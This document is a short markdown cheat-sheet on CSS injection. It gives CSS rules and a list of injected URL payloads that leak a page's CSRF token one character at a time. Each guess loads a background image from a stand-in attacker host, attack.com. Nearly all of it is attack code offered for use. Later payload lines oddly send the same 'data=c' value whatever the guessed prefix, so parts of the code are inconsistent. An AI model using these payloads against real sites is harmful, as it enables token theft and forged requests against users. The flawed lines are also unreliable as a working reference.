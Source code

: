 # CSS Injection

## # Basic Attack

```css
input[id=csrftoken][value^=a] {
    background: url(https://attack.com/?data=a);
}

input[id=csrftoken][value^=b] {
    background: url(https://attack.com/?data=b);
}

...

input[id=csrftoken][value^=9] {
    background: url(https://attack.com/?data=9);
}
```

### Attack vector

```css
body {
   background-color: {{ color }} 
}
```

### Payload

```css
/mypage?color=red;}} input[id=csrftoken][value^=a] {{ background: url(https://attack.com/?data=a); (False) 
/mypage?color=red;}} input[id=csrftoken][value^=b] {{ background: url(https://attack.com/?data=b); (False)
/mypage?color=red;}} input[id=csrftoken][value^=c] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=d] {{ background: url(https://attack.com/?data=d); (True)
...
/mypage?color=red;}} input[id=csrftoken][value^=7] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=8] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=9] {{ background: url(https://attack.com/?data=c); (False)

/mypage?color=red;}} input[id=csrftoken][value^=da] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=db] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=dc] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=dd] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=de] {{ background: url(https://attack.com/?data=c); (True)
...
/mypage?color=red;}} input[id=csrftoken][value^=d8] {{ background: url(https://attack.com/?data=c); (False)
/mypage?color=red;}} input[id=csrftoken][value^=d9] {{ background: url(https://attack.com/?data=c); (False)

```